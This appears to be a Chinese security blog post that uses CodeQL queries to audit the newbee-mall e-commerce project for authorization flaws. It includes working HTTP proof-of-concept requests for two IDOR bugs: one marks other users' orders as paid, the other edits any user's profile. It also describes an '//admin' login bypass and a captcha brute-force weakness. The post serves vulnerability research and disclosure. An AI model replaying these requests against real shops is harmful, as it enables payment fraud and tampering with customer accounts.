








# 基于codeql的newbee-mall漏洞挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/18753  
> **文章ID**: 18753

---

项目地址：<https://github.com/newbee-ltd/newbee-mall>  
newbee-mall是一个有11.4k star的开源商城项目，本文重点关注如何使用codeql去全自动的挖掘其ABAC权限漏洞。

### 垂直权限管理

首先来看其垂直权限管理，垂直权限一般是内聚在配置类中，通常没问题，但是还是看看：

```
@Configuration
public class NeeBeeMallWebMvcConfigurer implements WebMvcConfigurer {

    @Autowired
    private AdminLoginInterceptor adminLoginInterceptor;
    @Autowired
    private NewBeeMallLoginInterceptor newBeeMallLoginInterceptor;
    @Autowired
    private NewBeeMallCartNumberInterceptor newBeeMallCartNumberInterceptor;

    public void addInterceptors(InterceptorRegistry registry) {
        // 添加一个拦截器，拦截以/admin为前缀的url路径（后台登陆拦截）
        registry.addInterceptor(adminLoginInterceptor)
                .addPathPatterns("/admin/**")
                .excludePathPatterns("/admin/login")
                .excludePathPatterns("/admin/dist/**")
                .excludePathPatterns("/admin/plugins/**");
        // 购物车中的数量统一处理
        registry.addInterceptor(newBeeMallCartNumberInterceptor)
                .excludePathPatterns("/admin/**")
                .excludePathPatterns("/register")
                .excludePathPatterns("/login")
                .excludePathPatterns("/logout");
        // 商城页面登陆拦截
        registry.addInterceptor(newBeeMallLoginInterceptor)
                .excludePathPatterns("/admin/**")
                .excludePathPatterns("/register")
                .excludePathPatterns("/login")
                .excludePathPatterns("/logout")
                .addPathPatterns("/goods/detail/**")
                .addPathPatterns("/shop-cart")
                .addPathPatterns("/shop-cart/**")
                .addPathPatterns("/saveOrder")
                .addPathPatterns("/orders")
                .addPathPatterns("/orders/**")            
                .addPathPatterns("/personal")
                .addPathPatterns("/personal/updateInfo")
                .addPathPatterns("/selectPayType")
                .addPathPatterns("/payPage");
    }

    public void addResourceHandlers(ResourceHandlerRegistry registry) {
        registry.addResourceHandler("/upload/**").addResourceLocations("file:" + Constants.FILE_UPLOAD_DIC);
        registry.addResourceHandler("/goods-img/**").addResourceLocations("file:" + Constants.FILE_UPLOAD_DIC);
    }
}
```

经典的SpringMVC的添加拦截器操作，如果存在垂直越权一定存在于`adminLoginInterceptor`处，跟进看实现：

```
@Component
public class AdminLoginInterceptor implements HandlerInterceptor {

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object o) throws Exception {
        String requestServletPath = request.getServletPath();
        if (requestServletPath.startsWith("/admin") && null == request.getSession().getAttribute("loginUser")) {
            request.getSession().setAttribute("errorMsg", "请登陆");
            response.sendRedirect(request.getContextPath() + "/admin/login");
            return false;
        } else {
            request.getSession().removeAttribute("errorMsg");
            return true;
        }
    }

    @Override
    public void postHandle(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse, Object o, ModelAndView modelAndView) throws Exception {
    }

    @Override
    public void afterCompletion(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse, Object o, Exception e) throws Exception {

    }
}
```

很经典的拦截器写法，目测没啥问题。  
值得一说的是这个项目历史上出现过一个[CVE-2020-23448](https://vuldb.com/?source_cve.168650)，我们来看看成因：  
  
一下子明了了，这种写法可以用`//admin`去进行bypass，利用http解析去进行绕过，从而构成垂直越权，接管管理员权限，而修复方式就是直接改成`requestServletPath.startsWith`。

### 水平权限管理

随便找个路由，看一看他是如何实现水平鉴权的：

```
@PutMapping("/shop-cart")
    @ResponseBody
    public Result updateNewBeeMallShoppingCartItem(@RequestBody NewBeeMallShoppingCartItem newBeeMallShoppingCartItem,
                                                   HttpSession httpSession) {
        NewBeeMallUserVO user = (NewBeeMallUserVO) httpSession.getAttribute(Constants.MALL_USER_SESSION_KEY);
        newBeeMallShoppingCartItem.setUserId(user.getUserId());
        String updateResult = newBeeMallShoppingCartService.updateNewBeeMallCartItem(newBeeMallShoppingCartItem);
        //修改成功
        if (ServiceResultEnum.SUCCESS.getResult().equals(updateResult)) {
            return ResultGenerator.genSuccessResult();
        }
        //修改失败
        return ResultGenerator.genFailResult(updateResult);
    }
```

可以看到通过`httpSession.getAttribute`来获取了用户的身份，然后传入了`newBeeMallShoppingCartService.updateNewBeeMallCartItem`。跟进去看`newBeeMallShoppingCartService.updateNewBeeMallCartItem`的逻辑：

```
@Override
    public String updateNewBeeMallCartItem(NewBeeMallShoppingCartItem newBeeMallShoppingCartItem) {
        NewBeeMallShoppingCartItem newBeeMallShoppingCartItemUpdate = newBeeMallShoppingCartItemMapper.selectByPrimaryKey(newBeeMallShoppingCartItem.getCartItemId());
        if (newBeeMallShoppingCartItemUpdate == null) {
            return ServiceResultEnum.DATA_NOT_EXIST.getResult();
        }
        //超出单个商品的最大数量
        if (newBeeMallShoppingCartItem.getGoodsCount() > Constants.SHOPPING_CART_ITEM_LIMIT_NUMBER) {
            return ServiceResultEnum.SHOPPING_CART_ITEM_LIMIT_NUMBER_ERROR.getResult();
        }
        //当前登录账号的userId与待修改的cartItem中userId不同，返回错误
        if (!newBeeMallShoppingCartItemUpdate.getUserId().equals(newBeeMallShoppingCartItem.getUserId())) {
            return ServiceResultEnum.NO_PERMISSION_ERROR.getResult();
        }
        //数值相同，则不执行数据操作
        if (newBeeMallShoppingCartItem.getGoodsCount().equals(newBeeMallShoppingCartItemUpdate.getGoodsCount())) {
            return ServiceResultEnum.SUCCESS.getResult();
        }
        newBeeMallShoppingCartItemUpdate.setGoodsCount(newBeeMallShoppingCartItem.getGoodsCount());
        newBeeMallShoppingCartItemUpdate.setUpdateTime(new Date());
        //修改记录
        if (newBeeMallShoppingCartItemMapper.updateByPrimaryKeySelective(newBeeMallShoppingCartItemUpdate) > 0) {
            return ServiceResultEnum.SUCCESS.getResult();
        }
        return ServiceResultEnum.DB_ERROR.getResult();
    }
```

可以看到使用了用户的身份进行了ABAC的比较。  
**那么这里我们就可以选取策略，凡是没有调用**`httpSession.getAttribute`**的方法就很可能存在水平越权**  
注意这种方法是并不完备的，因为即使调用了`httpSession.getAttribute`的路由获取用户身份，也有可能没有真的去用，但是这里为了方便忽略这种狗屎情况。

```
import java

predicate callsHttpSessionGetAttribute(Method m) {
    exists(Call call, Method targetMethod |
      call.getCallee() = targetMethod and
      targetMethod.hasName("getAttribute") and
      targetMethod.getDeclaringType().hasQualifiedName("javax.servlet.http", "HttpSession") and
      m = call.getEnclosingCallable()
    )
}

predicate isController(Method m) {
    exists(Annotation a |  
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "GetMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "PostMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "RequestMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "PutMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "DeleteMapping") 
        | a = m.getAnAnnotation()
    )
}


from Method m
where not callsHttpSessionGetAttribute(m) and
        isController(m) 
select m
```

代码还是比较好理解的，`callsHttpSessionGetAttribute`是判断是否调用了`httpSession.getAttribute`；`isController`是判断方法是不是路由方法的。  
  
一跑出现55条结果，人直接麻了，看了一下其中有很多`/admin`下的方法，这显然是我们不想管的（admin下显然没有水平权限管理）。  
解决办法是判断方法的所属的类是否存在注解：`@RequestMapping("/admin")`

```
predicate isNotAdmin(Method m) {
    not exists(Annotation a, Literal l |
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "RequestMapping") and
        a.getValue("value") = l and
        l.getValue() = "/admin"
        | a = m.getDeclaringType().getAnAnnotation()
    )
}
```

除此之外还需要将vo层的方法过滤掉，因为vo层显然是只负责渲染，不解决业务逻辑的：

```
predicate isNotAdmin(Method m) {
    not exists(Annotation a, Literal l |
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "RequestMapping") and
        a.getValue("value") = l and
        l.getValue() = "/admin"
        | a = m.getDeclaringType().getAnAnnotation()
    ) and
    not m.getDeclaringType().getPackage().getName() = "ltd.newbee.mall.controller.vo"
}
```

  
确实结果少了很多，但是其中还存在这样的负责渲染模板的GET路由，我们也需要把他过滤掉：

```
predicate returnsStringLiteral(Method m) {
    exists(ReturnStmt r, StringLiteral s |
      r.getParent*() = m.getBody() and
      s.getParent*() = r
    )
}
```

这里可能比较难懂，意思是返回表达式r的祖宗是m的函数体；而s的祖宗是返回表达式。  
整合得到codeql脚本如下：

```
import java

predicate callsHttpSessionGetAttribute(Method m) {
    exists(Call call, Method targetMethod |
      call.getCallee() = targetMethod and
      targetMethod.hasName("getAttribute") and
      targetMethod.getDeclaringType().hasQualifiedName("javax.servlet.http", "HttpSession") and
      m = call.getEnclosingCallable()
    )
}

predicate isController(Method m) {
    exists(Annotation a |  
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "GetMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "PostMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "RequestMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "PutMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "DeleteMapping") 
        | a = m.getAnAnnotation()
    )
}

predicate isNotAdmin(Method m) {
    not exists(Annotation a, Literal l |
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "RequestMapping") and
        a.getValue("value") = l and
        l.getValue() = "/admin"
        | a = m.getDeclaringType().getAnAnnotation()
    ) and
    not m.getDeclaringType().getPackage().getName() = "ltd.newbee.mall.controller.vo"
}

predicate returnsStringLiteral(Method m) {
    exists(ReturnStmt r, StringLiteral s |
      r.getParent*() = m.getBody() and
      s.getParent*() = r
    )
}


from Method m
where not callsHttpSessionGetAttribute(m) and
    not returnsStringLiteral(m) and
        isController(m) and
        isNotAdmin(m)
select m
```

  
一下子好起来了，其中前两个路由和验证码请求有关，我们回头再说，后两个方法是关注的重点：

##### 先来看`paySuccess`方法：

```
@GetMapping("/paySuccess")
    @ResponseBody
    public Result paySuccess(@RequestParam("orderNo") String orderNo, @RequestParam("payType") int payType) {
        String payResult = newBeeMallOrderService.paySuccess(orderNo, payType);
        if (ServiceResultEnum.SUCCESS.getResult().equals(payResult)) {
            return ResultGenerator.genSuccessResult();
        } else {
            return ResultGenerator.genFailResult(payResult);
        }
    }
```

这个接口太nb了，能直接将用户账单的状态设置为已支付，跟进看一下`newBeeMallOrderService.paySuccess`

```
@Override
    public String paySuccess(String orderNo, int payType) {
        NewBeeMallOrder newBeeMallOrder = newBeeMallOrderMapper.selectByOrderNo(orderNo);
        if (newBeeMallOrder != null) {
            //订单状态判断 非待支付状态下不进行修改操作
            if (newBeeMallOrder.getOrderStatus().intValue() != NewBeeMallOrderStatusEnum.ORDER_PRE_PAY.getOrderStatus()) {
                return ServiceResultEnum.ORDER_STATUS_ERROR.getResult();
            }
            newBeeMallOrder.setOrderStatus((byte) NewBeeMallOrderStatusEnum.ORDER_PAID.getOrderStatus());
            newBeeMallOrder.setPayType((byte) payType);
            newBeeMallOrder.setPayStatus((byte) PayStatusEnum.PAY_SUCCESS.getPayStatus());
            newBeeMallOrder.setPayTime(new Date());
            newBeeMallOrder.setUpdateTime(new Date());
            if (newBeeMallOrderMapper.updateByPrimaryKeySelective(newBeeMallOrder) > 0) {
                return ServiceResultEnum.SUCCESS.getResult();
            } else {
                return ServiceResultEnum.DB_ERROR.getResult();
            }
        }
        return ServiceResultEnum.ORDER_NOT_EXIST_ERROR.getResult();
    }
```

果然没有水平权限判断，构成了支付漏洞+水平越权，可以将平台的所有订单设为已支付。  
验证一下，随便登录一个账号，然后尝试修改别人订单状态：

```
GET /paySuccess?payType=2&orderNo=15692218454123239 HTTP/1.1
Host: localhost:28089
Sec-Fetch-Dest: empty
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
sec-ch-ua-mobile: ?0
Cookie: JSESSIONID=6C4975A8A36CAD2F1A5288233A2F4102
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Sec-Fetch-Mode: cors
Referer: http://localhost:28089/payPage?orderNo=15689090398492576&payType=2
Accept-Encoding: gzip, deflate, br, zstd
X-Requested-With: XMLHttpRequest
```

  
看一下数据库，发现果然成功修改：  
  
直接提交vuldb。

##### 再来看`updateInfo`方法：

```
@PostMapping("/personal/updateInfo")
    @ResponseBody
    public Result updateInfo(@RequestBody MallUser mallUser, HttpSession httpSession) {
        NewBeeMallUserVO mallUserTemp = newBeeMallUserService.updateUserInfo(mallUser, httpSession);
        if (mallUserTemp == null) {
            Result result = ResultGenerator.genFailResult("修改失败");
            return result;
        } else {
            //返回成功
            Result result = ResultGenerator.genSuccessResult();
            return result;
        }
    }
```

跟进看一下调用的`newBeeMallUserService.updateUserInfo`：

```
@Override
    public NewBeeMallUserVO updateUserInfo(MallUser mallUser, HttpSession httpSession) {
        NewBeeMallUserVO userTemp = (NewBeeMallUserVO) httpSession.getAttribute(Constants.MALL_USER_SESSION_KEY);
        MallUser userFromDB = mallUserMapper.selectByPrimaryKey(userTemp.getUserId());
        if (userFromDB != null) {
            if (StringUtils.hasText(mallUser.getNickName())) {
                userFromDB.setNickName(NewBeeMallUtils.cleanString(mallUser.getNickName()));
            }
            if (StringUtils.hasText(mallUser.getAddress())) {
                userFromDB.setAddress(NewBeeMallUtils.cleanString(mallUser.getAddress()));
            }
            if (StringUtils.hasText(mallUser.getIntroduceSign())) {
                userFromDB.setIntroduceSign(NewBeeMallUtils.cleanString(mallUser.getIntroduceSign()));
            }
            if (mallUserMapper.updateByPrimaryKeySelective(userFromDB) > 0) {
                NewBeeMallUserVO newBeeMallUserVO = new NewBeeMallUserVO();
                BeanUtil.copyProperties(userFromDB, newBeeMallUserVO);
                httpSession.setAttribute(Constants.MALL_USER_SESSION_KEY, newBeeMallUserVO);
                return newBeeMallUserVO;
            }
        }
        return null;
    }
```

果然没有验证，可以根据用户传入的JSON中的ID来任意修改任何用户的信息。  
验证：

```
POST /personal/updateInfo HTTP/1.1
Host: localhost:28089
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Sec-Fetch-Mode: cors
Accept: */*
Cookie: JSESSIONID=6C4975A8A36CAD2F1A5288233A2F4102
Referer: http://localhost:28089/personal
Origin: http://localhost:28089
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br, zstd
Content-Length: 130

{"userId":"6","address":"杭州市西湖区xx小区x幢419 十三 137xxxx2703","introduceSign":"我是奶龙","nickName":"十三"}
```

  
遗憾的是这里已经被人提交过了，并获得了[CVE-2023-30216](https://vuldb.com/?source_cve.228047)的编号。

##### 验证码爆破漏洞

翻回来看那两个验证码爆破的方法，也是狗屎一坨。  
我直接贴个图，师傅们应该就能理解发生了什么。  
  
非常经典的验证码bypass，前端不请求验证码的路由验证码就不会换。从代码层面看看这个漏洞是如何出现的：

```
@GetMapping("/common/mall/kaptcha")
    public void mallKaptcha(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse) throws Exception {
        httpServletResponse.setHeader("Cache-Control", "no-store");
        httpServletResponse.setHeader("Pragma", "no-cache");
        httpServletResponse.setDateHeader("Expires", 0);
        httpServletResponse.setContentType("image/png");

        ShearCaptcha shearCaptcha= CaptchaUtil.createShearCaptcha(110, 40, 4, 2);

        // 验证码存入session
        httpServletRequest.getSession().setAttribute(Constants.MALL_VERIFY_CODE_KEY, shearCaptcha);

        // 输出图片流
        shearCaptcha.write(httpServletResponse.getOutputStream());
    }
```

直接把生成的验证码放到了Session里，这是没问题的，但是每次要依赖于前端访问这个路由来更换Session中的验证码，这不出问题谁出问题？

### 总结

由于不同的项目权限判断方式是不同的，因此需要具体项目具体分析，精确把握问题构造codeql脚本，从而减少人审计的复杂度。  
以上漏洞均已提交至vuldb，希望我的内容对师傅们挖掘业务安全漏洞会有帮助。  
参考：  
<https://github.com/newbee-ltd/newbee-mall/issues/100>  
<https://github.com/newbee-ltd/newbee-mall/issues/101>
